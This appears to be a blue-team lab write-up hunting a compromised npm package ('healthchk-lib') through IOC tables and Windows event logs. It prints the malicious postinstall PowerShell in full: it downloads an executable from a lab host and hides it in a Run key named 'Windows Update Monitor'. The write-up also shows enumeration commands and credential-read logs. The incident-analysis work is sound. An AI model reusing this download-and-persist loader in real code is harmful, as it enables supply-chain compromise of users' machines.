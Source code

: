 ```yaml
---
{"dg-publish":true,"permalink":"/z-archive/health-hazard-threat-hunting/","tags":["blue-team"]}
---
```


~ [[input\|input]]

# Health Hazard

### Briefing

After months of juggling content calendars and caffeine-fueled brainstorming, co-founder Tom Whiskers finally carved out time to build the company’s first website. It was supposed to be simple: follow a tutorial, install a few packages, and bring the brand to life with lightweight JavaScript magic.

But between sleepless nights and copy-pasted code, Tom started feeling off. Not sick exactly, just off. The terminal scrolled with reassuring green text, the site loaded fine, and everything looked normal.

But no one really knows what might have been hidden beneath it all…

It just waited.

### Hypothesis

An attacker may have leveraged a compromised third-party software package to gain initial access to the system and silently stage a payload for later execution. They likely established persistence to maintain access without immediate detection.

### Threat Hunting Mission
---

Your task as a Threat Hunter is to conduct a comprehensive hunting session in the TryGovMe environment to identify potential anomalies and threats. You are expected to:

**1. Validate a Hunting Hypothesis**

Investigate the given hypothesis and determine - based on your findings - whether it is valid or not.

**2. Review IOCs from External Sources**

Analyse the list of Indicators of Compromise provided by security teams from compromised partner organisations. These may lead you to uncover additional malicious activity or pivot points.

**3. Reconstruct the Attack Chain**

Perform a detailed investigation within the environment and reconstruct the attack chain, starting from the initial point of compromise to the attacker's final objective.

**4. Determine the Scope of the Incident**

Identify the impacted users, systems, and assets. Understanding the full scope is critical for response and containment.

**5. Generate a Final Threat Hunting Report**

Based on your findings and the reconstructed attack chain, compile a final Threat Hunting report highlighting the key observations and affected entities.

---

## Host-Based IOCs

| **Type**             | **Value**                                                |
| -------------------- | -------------------------------------------------------- |
| NPM Package          | `healthchk-lib@1.0.1`                                    |
| Registry Path        | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`     |
| Registry Value Name  | `Windows Update Monitor`                                 |
| Registry Value Data  | `powershell.exe -NoP -W Hidden -EncodedCommand <base64>` |
| Downloaded File Path | `%APPDATA%\SystemHealthUpdater.exe`                      |
| PowerShell Command   | `Invoke-WebRequest -Uri ... -OutFile ...`                |
| Process Execution    | `powershell.exe -NoP -W Hidden -EncodedCommand ...`      |
| Script Artifact      | Found in `package.json` under `"postinstall"`            |

## Network-Based IOCs

| **Type**           | **Value**                                                  |
| ------------------ | ---------------------------------------------------------- |
| Download URL       | `http://global-update.wlndows.thm/SystemHealthUpdater.exe` |
| Hostname Contacted | `global-update.wlndows.thm`                                |
| Protocol           | HTTP (unencrypted)                                         |
| Port               | 80                                                         |
| Traffic Behavior   | Outbound file download to `%APPDATA%` via PowerShell       |

External sources proves that right after installation of npm packages, it makes a request to 'global-update.wlndows.thm' to download a malicious executable and this executable is added to the Run registry for persistence mechanism:

 timestamp: 21/06/2025 10:58:27.000
```C
$dest = "$env:APPDATA\SystemHealthUpdater.exe"
$url = "http://global-update.wlndows.thm/SystemHealthUpdater.exe"

# Download file
Invoke-WebRequest -Uri $url -OutFile $dest

# Base64 encode the command
$encoded = [Convert]::ToBase64String(
    [Text.Encoding]::Unicode.GetBytes("Start-Process '$dest'")
)

# Build persistence command
$runCmd = 'powershell.exe -NoP -W Hidden -EncodedCommand ' + $encoded

# Add to registry for persistence
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run' `
    -Name 'Windows Update Monitor' -Value $runCmd
```

Filtering for `npm`, we can also see the malicious package being installed:

timestamp: 21/06/2025 10:58:24.000
```C
"C:\Program Files\nodejs\node.exe" "C:\Program Files\nodejs/node_modules/npm/bin/npm-cli.js" install healthchk-lib@1.0.1
```

Based on analysis and ParentCommandLine, the malicious npm package installation goes first then the installation of SystemHealthUpdater.exe comes next.


It looks like this is the user responsible for installing this packages

```C
ParentUser: PAW-TOM\itadmin-tom
```

With computer name of : ComputerName: paw-tom

```
TargetFilename: C:\Development\node_modules\healthchk-lib\scripts\postinstall.ps1
```

Then there is evidence that the user tom read credentials from the credentials manager:

```C
Account_Domain: PAW-TABITHA  
   Account_Name: itadmin-tom  
   ComputerName: paw-tabitha  
   Error_Code: -  
   EventCode: 5379  
   EventType: 0  
   Keywords: Audit Success  
   LogName: Security  
   Logon_ID: 0x6A7BB  
   Message: Credential Manager credentials were read. Subject: Security ID: S-1-5-21-1966530601-3185510712-10604624-500 Account Name: itadmin-tom Account Domain: PAW-TABITHA Logon ID: 0x6A7BB Read Operation: Enumerate Credentials
```

From computername: paw-tabitha there were signs of host enumeration indicating a successful lateral movement:

```C
C:\Windows\system32\cmd.exe /c C:\Windows\system32\reg.exe query hklm\software\microsoft\windows\softwareinventorylogging /v collectionstate /reg:64

C:\Windows\system32\reg.exe query hklm\software\microsoft\windows\softwareinventorylogging /v collectionstate /reg:64

wmic OS get OperatingSystemSKU /format:list

powershell "Get-CimInstance Win32_PnPEntity | Where-Object { $_.Service -eq 'xenvbd' } | Select-Object DeviceID | ConvertTo-Json -Depth 3"

powershell "Get-ItemProperty -Path 'HKLM:\SOFTWARE\Amazon\PVDriver' | Select-Object Name, Version | ConvertTo-Json -Depth 3"

taskhostw.exe SYSTEM

powershell "Get-CimInstance Win32_OperatingSystem | Select-Object Version, OperatingSystemSKU | ConvertTo-Json -Depth 3"
```

  timestamp: 21/06/2025 10:53:04.000



* ComputerName="paw-tabitha" app="win:remote"

```C
Logon_Type: 10 Message: An account was successfully logged on. Subject: Security ID: S-1-5-18 Account Name: PAW-TABITHA$ Account Domain: WORKGROUP Logon ID: 0x3E7 Logon Information: Logon Type: 10 Restricted Admin Mode: No Virtual Account: No Elevated Token: Yes Impersonation Level: Impersonation New Logon: Security ID: S-1-5-21-1966530601-3185510712-10604624-500 Account Name: itadmin-tom Account Domain: PAW-TABITHA Logon ID: 0x6A7BB Linked Logon ID: 0x0 Network Account Name: - Network Account Domain: - Logon GUID: {00000000-0000-0000-0000-000000000000} Process Information: Process ID: 0x554 Process Name: C:\Windows\System32\svchost.exe Network Information: Workstation Name: PAW-TABITHA Source Network Address: 194.50.16.198 Source Port: 0 Detailed Authentication Information: Logon Process: User32 Authentication Package: Negotiate Transited Services: - Package Name (NTLM only): - Key Length: 0 This event is generated when a logon session is created. It is generated on the computer that was accessed. The subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe. The logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network). The New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on. The network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases. The impersonation level field indicates the extent to which a process in the logon session can impersonate. The authentication information fields provide detailed information about this specific logon request. - Logon GUID is a unique identifier that can be used to correlate this event with a KDC event. - Transited services indicate which intermediate services have participated in this logon request. - Package name indicates which sub-protocol was used among the NTLM protocols. - Key length indicates the length of the generated session key. This will be 0 if no session key was requested
```